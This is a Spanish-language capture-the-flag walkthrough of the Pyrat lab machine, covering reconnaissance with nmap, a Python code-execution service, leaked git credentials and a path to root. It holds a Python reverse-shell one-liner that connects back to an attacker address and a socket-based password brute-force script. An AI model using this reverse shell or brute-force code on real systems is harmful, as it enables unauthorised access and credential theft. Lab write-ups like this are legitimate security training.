






## Reconocimiento
Lanzamos **nmap** a todos los puertos, con scripts y versiones de software:
```
> nmap -p- -sVC --min-rate 5000 10.10.216.28 -Pn -n -oN nmap.txt
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-10-05 15:53 CEST
Nmap scan report for 10.10.216.28
Host is up (0.059s latency).

PORT     STATE SERVICE  VERSION
22/tcp   open  ssh      OpenSSH 8.2p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 44:5f:26:67:4b:4a:91:9b:59:7a:95:59:c8:4c:2e:04 (RSA)
|   256 0a:4b:b9:b1:77:d2:48:79:fc:2f:8a:3d:64:3a:ad:94 (ECDSA)
|_  256 d3:3b:97:ea:54:bc:41:4d:03:39:f6:8f:ad:b6:a0:fb (ED25519)
8000/tcp open  http-alt SimpleHTTP/0.6 Python/3.11.2
|_http-server-header: SimpleHTTP/0.6 Python/3.11.2
|_http-title: Site doesn't have a title (text/html; charset=utf-8).
|_http-open-proxy: Proxy might be redirecting requests
| fingerprint-strings: 
|   DNSStatusRequestTCP, DNSVersionBindReqTCP, JavaRMI, LANDesk-RC, NotesRPC, Socks4, X11Probe, afp, giop: 
|     source code string cannot contain null bytes
|   FourOhFourRequest, LPDString, SIPOptions: 
|     invalid syntax (<string>, line 1)
|   GetRequest: 
|     name 'GET' is not defined
|   HTTPOptions, RTSPRequest: 
|     name 'OPTIONS' is not defined
|   Help: 
|_    name 'HELP' is not defined
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port8000-TCP:V=7.94SVN%I=7%D=10/5%Time=670123AF%P=x86_64-pc-linux-gnu%r
SF:(GenericLines,1,"\n")%r(GetRequest,1A,"name\x20'GET'\x20is\x20not\x20de
SF:fined\n")%r(X11Probe,2D,"source\x20code\x20string\x20cannot\x20contain\
SF:x20null\x20bytes\n")%r(FourOhFourRequest,22,"invalid\x20syntax\x20\(<st
SF:ring>,\x20line\x201\)\n")%r(Socks4,2D,"source\x20code\x20string\x20cann
SF:ot\x20contain\x20null\x20bytes\n")%r(HTTPOptions,1E,"name\x20'OPTIONS'\
SF:x20is\x20not\x20defined\n")%r(RTSPRequest,1E,"name\x20'OPTIONS'\x20is\x
SF:20not\x20defined\n")%r(DNSVersionBindReqTCP,2D,"source\x20code\x20strin
SF:g\x20cannot\x20contain\x20null\x20bytes\n")%r(DNSStatusRequestTCP,2D,"s
SF:ource\x20code\x20string\x20cannot\x20contain\x20null\x20bytes\n")%r(Hel
SF:p,1B,"name\x20'HELP'\x20is\x20not\x20defined\n")%r(LPDString,22,"invali
SF:d\x20syntax\x20\(<string>,\x20line\x201\)\n")%r(SIPOptions,22,"invalid\
SF:x20syntax\x20\(<string>,\x20line\x201\)\n")%r(LANDesk-RC,2D,"source\x20
SF:code\x20string\x20cannot\x20contain\x20null\x20bytes\n")%r(NotesRPC,2D,
SF:"source\x20code\x20string\x20cannot\x20contain\x20null\x20bytes\n")%r(J
SF:avaRMI,2D,"source\x20code\x20string\x20cannot\x20contain\x20null\x20byt
SF:es\n")%r(afp,2D,"source\x20code\x20string\x20cannot\x20contain\x20null\
SF:x20bytes\n")%r(giop,2D,"source\x20code\x20string\x20cannot\x20contain\x
SF:20null\x20bytes\n");
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Accedemos al sitio web por el puerto 8000, pero la única pista es el mensaje de "*Try a more basic connection!*":


Probamos a realizar una conexión con **netcat**, diría que es lo más "básico", lanzamos un "**test**" y vemos que nos devuelve un mensaje que nos llama mucho la atención, ya que es *clavadito* a los mensajes de error de **Python**:
```
> nc 10.10.216.28 8000
test
name 'test' is not defined
```

Intentamos enviar comandos con **Python** y vemos que el 2º si que lo ejecuta:
```
> echo "python3 --version" | nc 10.10.216.28 8000
name 'python3' is not defined
id

> echo "print('jelou!')" | nc 10.10.216.28 8000
jelou!

```

## Explotación
Tras identificar el punto de entrada, ejecutamos una reverse shell en **Python** para ganar acceso a la máquina:
```python
echo 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.XX.XX.XX",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")' | nc 10.10.216.28 8000
```


Dentro de la máquina intentamos acceder a la carpeta del usuario *think*, pero no tenemos acceso, realizamos un pequeño reconocimiento, no nos costará encontrar el directorio oculto de *.git* dentro de */opt/dev*, allí encontraremos las credenciales del usuario *think*:

```
$ cat config
cat config
[core]
        repositoryformatversion = 0
        filemode = true
        bare = false
        logallrefupdates = true
[user]
        name = Jose Mario
        email = josemlwdf@github.com

[credential]
        helper = cache --timeout=3600

[credential "https://github.com"]
        username = think
        password = **************
$ pwd
pwd
/opt/dev/.git
$ 
``` 

Con las credenciales de *think* en nuestro poder, ya solo nos queda conectarnos por **SSH** y leer la flag de usuario:
```
> ssh think@10.10.216.28
think@10.10.216.28's password: 
Welcome to Ubuntu 20.04.6 LTS (GNU/Linux 5.4.0-150-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Sat 05 Oct 2024 12:16:51 PM UTC

  System load:  0.0               Processes:             116
  Usage of /:   46.8% of 9.75GB   Users logged in:       0
  Memory usage: 44%               IPv4 address for eth0: 10.10.216.28
  Swap usage:   0%


Expanded Security Maintenance for Applications is not enabled.

0 updates can be applied immediately.

Enable ESM Apps to receive additional future security updates.
See https://ubuntu.com/esm or run: sudo pro status


The list of available updates is more than a week old.
To check for new updates run: sudo apt update

You have mail.
Last login: Thu Jun 15 12:09:31 2023 from 192.168.204.1
think@Pyrat:~$ ls -lna
total 40
drwxr-x--- 5 1000 1000 4096 Jun 21  2023 .
drwxr-xr-x 3    0    0 4096 Jun  2  2023 ..
lrwxrwxrwx 1    0    0    9 Jun 15  2023 .bash_history -> /dev/null
-rwxr-x--- 1 1000 1000  220 Jun  2  2023 .bash_logout
-rwxr-x--- 1 1000 1000 3771 Jun  2  2023 .bashrc
drwxr-x--- 2 1000 1000 4096 Jun  2  2023 .cache
-rwxr-x--- 1 1000 1000   25 Jun 21  2023 .gitconfig
drwx------ 3 1000 1000 4096 Jun 21  2023 .gnupg
-rwxr-x--- 1 1000 1000  807 Jun  2  2023 .profile
drwx------ 3 1000 1000 4096 Jun 21  2023 snap
-rw-r--r-- 1    0 1000   33 Jun 15  2023 user.txt
lrwxrwxrwx 1    0    0    9 Jun 21  2023 .viminfo -> /dev/null
think@Pyrat:~$ cat user.txt 
*****************************
think@Pyrat:~$ 
```

## Escalada de privilegios
Lanzamos el script de reconocimiento [**lse.sh**](https://github.com/diego-treitos/linux-smart-enumeration/tree/master), vemos que existen bandejas de correo en la máquina:
```
[!] fst140 Can we access other users mail?................................. yes!
---
/var/mail/root
/var/mail/www-data
```
Leemos nuestra bandeja de correo, tenemos una pista del despliegue de un RAT en la máquina:
```
think@Pyrat:/var/mail$ ls -lna
total 12
drwxrwsr-x  2 0 8 4096 Oct  5 12:21 .
drwxr-xr-x 12 0 0 4096 Dec 22  2023 ..
lrwxrwxrwx  1 0 8    9 Jun 21  2023 root -> /dev/null
-r--r--r--  1 0 8  617 Jun 21  2023 think
lrwxrwxrwx  1 0 8    9 Jun 21  2023 www-data -> /dev/null
think@Pyrat:/var/mail$ cat think 
From root@pyrat  Thu Jun 15 09:08:55 2023
Return-Path: <root@pyrat>
X-Original-To: think@pyrat
Delivered-To: think@pyrat
Received: by pyrat.localdomain (Postfix, from userid 0)
        id 2E4312141; Thu, 15 Jun 2023 09:08:55 +0000 (UTC)
Subject: Hello
To: <think@pyrat>
X-Mailer: mail (GNU Mailutils 3.7)
Message-Id: <20230615090855.2E4312141@pyrat.localdomain>
Date: Thu, 15 Jun 2023 09:08:55 +0000 (UTC)
From: Dbile Admen <root@pyrat>

Hello jose, I wanted to tell you that i have installed the RAT you posted on your GitHub page, i'll test it tonight so don't be scared if you see it running. Regards, Dbile Admen
think@Pyrat:/var/mail$ 
```

Ejecutamos [**pspy**](https://github.com/DominicBreuker/pspy) para intenta localizar los procesos que están en marcha y localizamos un script en el directorio */root/pyrat.py*, no tenemos acceso de edición sobre él, por lo que habrá que seguir investigando como explotar esta vía:


Recordemos que habíamos enumerado un directorio *.git*, accedemos a él, revisamos los logs y encontramos el contenido del fichero *pyrat.py*:
```
think@Pyrat:/opt/dev/.git$ git log
commit 0a3c36d66369fd4b07ddca72e5379461a63470bf (HEAD -> master)
Author: Jose Mario <josemlwdf@github.com>
Date:   Wed Jun 21 09:32:14 2023 +0000

    Added shell endpoint

think@Pyrat:/opt/dev/.git$ git show 0a3c36d66369fd4b07ddca72e5379461a63470bf
commit 0a3c36d66369fd4b07ddca72e5379461a63470bf (HEAD -> master)
Author: Jose Mario <josemlwdf@github.com>
Date:   Wed Jun 21 09:32:14 2023 +0000

    Added shell endpoint

diff --git a/pyrat.py.old b/pyrat.py.old
new file mode 100644
index 0000000..ce425cf
--- /dev/null
+++ b/pyrat.py.old
@@ -0,0 +1,27 @@
+...............................................
+
+def switch_case(client_socket, data):
+    if data == 'some_endpoint':
+        get_this_enpoint(client_socket)
+    else:
+        # Check socket is admin and downgrade if is not aprooved
+        uid = os.getuid()
+        if (uid == 0):
+            change_uid()
+
+        if data == 'shell':
+            shell(client_socket)
+        else:
+            exec_python(client_socket, data)
+
+def shell(client_socket):
+    try:
+        import pty
+        os.dup2(client_socket.fileno(), 0)
+        os.dup2(client_socket.fileno(), 1)
+        os.dup2(client_socket.fileno(), 2)
+        pty.spawn("/bin/sh")
+    except Exception as e:
+        send_data(client_socket, e
+
+...............................................
think@Pyrat:/opt/dev/.git$ 
```

Vemos que el script permitiría otorgarnos una shell como root al enviar la palabra "*shell*", pero vemos que hay un condicional antes del que necesitamos identificar un parámetro para que ejecute la shell con privilegios administrativos.

Comprobamos que si conectamos con **netcat** y enviamos la palabra *shell*, nos abre una terminal, esto no se nos ocurrió al principio! :D:
```
> nc -nv 10.10.216.28 8000
(UNKNOWN) [10.10.216.28] 8000 (?) open
shell
$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
$ ip a
ip a
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host 
       valid_lft forever preferred_lft forever
2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 9001 qdisc fq_codel state UP group default qlen 1000
    link/ether 02:68:67:d6:96:97 brd ff:ff:ff:ff:ff:ff
    inet 10.10.216.28/16 brd 10.10.255.255 scope global dynamic eth0
       valid_lft 2812sec preferred_lft 2812sec
    inet6 fe80::68:67ff:fed6:9697/64 scope link 
       valid_lft forever preferred_lft forever
$ 
```
Intentamos enviar *some_endpoint*, pero vemos que no está definido,así que vamos a tener que hacer un descubrimiento a través de técnicas de fuzzing:
```
> nc -nv 10.10.216.28 8000
(UNKNOWN) [10.10.216.28] 8000 (?) open
some_endpoint
name 'some_endpoint' is not defined
```
No nos complicamos y elaboramos un *oneliner* en bash y con un diccionario con palabras, rápidamente identificamos la palabra "*admin*", y que nos pide una contraseña para continuar:



Elaboramos un script con Python para realizar una ataque de fuerza bruta a través de sockets:
#### Script exploit-root.py:
```python
import socket
import time

# Dirección IP y puerto
ip = "10.10.216.28"
port = 8000

# Usuario
username = "admin"

# Diccionario de contraseñas
with open("/usr/share/seclists/Passwords/Common-Credentials/10-million-password-list-top-100.txt", "r") as file:
    passwords = [line.strip() for line in file]

for password in passwords:
    # Crear un socket y conectarse
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    print(f"Conectando a {ip}:{port}...")
    s.connect((ip, port))
    print("Conectado.")

    # Enviar el nombre de usuario
    print(f"Enviando nombre de usuario: {username}")
    s.sendall(username.encode() + b'\n')
    time.sleep(1)

    # Recibir solicitud de contraseña y enviar la contraseña
    response = s.recv(1024)
    print(f"Respuesta recibida: {response.decode()}")
    if b"Password:" in response:
        print(f"Probando contraseña: {password}")
        s.sendall((password + '\n').encode())
        time.sleep(1) 

        # Recibir la respuesta después de enviar la contraseña
        response = s.recv(1024)
        print(f"Respuesta recibida: {response.decode()}")

        # Verificar si la contraseña es correcta
        if b"Password:" not in response:
            print("Contraseña correcta encontrada.")
            break

    # Cerrar la conexión
    s.close()
    print("Conexión cerrada.")
    time.sleep(1)
```

```
> python3 exploit-root.py
Conectando a 10.10.216.28:8000...
Conectado.
Enviando nombre de usuario: admin
Respuesta recibida: Password:

Probando contraseña: **********
Respuesta recibida: Password:

<SNIP>

Conexión cerrada.
Conectando a 10.10.216.28:8000...
Conectado.
Enviando nombre de usuario: admin
Respuesta recibida: Password:

Conexión cerrada.
Conectando a 10.10.216.28:8000...
Conectado.
Enviando nombre de usuario: admin
Respuesta recibida: Password:

Probando contraseña: ********
Respuesta recibida: Welcome Admin!!! Type "shell" to begin

Contraseña correcta encontrada.
```

Con las credenciales en nuestro poder, volvemos a conectarnos por **netcat**, nos autenticamos, escribimos "*shell*" y leemos la flag de root:
```
> nc 10.10.216.28 8000
admin
Password:
***********
Welcome Admin!!! Type "shell" to begin

shell
# id
id
uid=0(root) gid=0(root) groups=0(root)
# cat /root/root.txt
cat /root/root.txt
************************
# 
```
¡Hasta la próxima! ¡Que la "*suerte*" os acompañe!